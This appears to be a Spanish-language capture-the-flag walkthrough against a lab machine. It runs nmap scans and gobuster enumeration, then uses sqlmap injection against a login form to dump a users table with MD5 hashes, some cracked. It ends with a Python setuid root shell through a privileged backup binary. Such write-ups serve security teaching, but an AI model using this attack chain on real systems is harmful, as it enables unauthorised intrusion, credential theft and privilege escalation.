
nmap -sn 192.168.56.0/24

nmap -p- -sV 192.168.56.10



nmap -p80 --script=vuln 192.168.56.10


gobuster dir -u http://192.168.56.10 -w /usr/share/wordlists/ffuf/SecLists/Discovery/Web-Content/raft-large-directories.txt -x php,html,txt -b 400,404

sqlmap -u "http://192.168.56.10/login.php" --data="username=test&password=test" -p username --batch --dbs --ignore-code


es vulnerable a inyeccion sql, nos ha sacado dos esquemas de la base de datos, copr y information_schema
sqlmap -u "http://192.168.56.10/login.php" --data="username=test&password=test" -p username --batch -D corp --tables --ignore-code=401
aprovechamos la tabla corp

sqlmap -u "http://192.168.56.10/login.php" --data="username=test&password=test" -p username --batch -D corp -T users --dump --ignore-code=401
sacamos info de la tabla users

+----+--------+----------------------------------------------+----------+
| id | role | password | username |
+----+--------+----------------------------------------------+----------+
| 1 | user | dea56e47f1c62c30b83b70eb281a6c39 (barcelona) | pperez |
| 2 | user | 8afa847f50a716e64932d995c8e7435a (princess) | agomez |
| 3 | user | f25a2fc72690b780b2a14e140ef6a9e0 (iloveyou) | jruiz |
| 4 | admin | 0b04f0f2f8a079bf984225c01ba99a0d | csalas |
| 5 | user | aaef70f35bbc718528c1e005e1e59d45 | mtorres |
| 6 | user | dac8029f94f09117ad4f0dc5f70b69e1 | dnavarro |
+----+--------+----------------------------------------------+----------+






find / -perm -4000 2>/dev/null

Buscamos archivos que tengamos acceso y que tengan root
getcap -r / 2>/dev/null

ls -la /opt/maint/

Aprovechamos los permisos root del python
/opt/maint/pybackup
import os
os.setuid(0)
os.setgid(0)
os.system('/bin/sh')
